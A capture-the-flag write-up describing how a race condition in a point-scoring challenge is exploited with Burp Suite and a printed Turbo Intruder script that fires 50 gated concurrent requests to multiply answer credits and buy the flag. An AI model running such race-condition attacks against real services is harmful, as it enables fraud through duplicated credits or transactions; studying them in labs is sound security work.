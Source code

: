 This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)
```
    

Don't forget to add a %s otherwise attack will not succeede. We just need it for execution of the attack
![image](https://user-images.githubusercontent.com/19681324/158211789-ecfec676-d867-4932-8e5b-de9bed94c978.png)

After successful attack we now have 530 point 
![image](https://user-images.githubusercontent.com/19681324/158211962-b38c48d5-520b-4a01-8091-e781ffef93ad.png)

we can easily buy the flag now

![image](https://user-images.githubusercontent.com/19681324/158212039-3d096017-def9-4f17-86c9-dcb49461e75b.png)

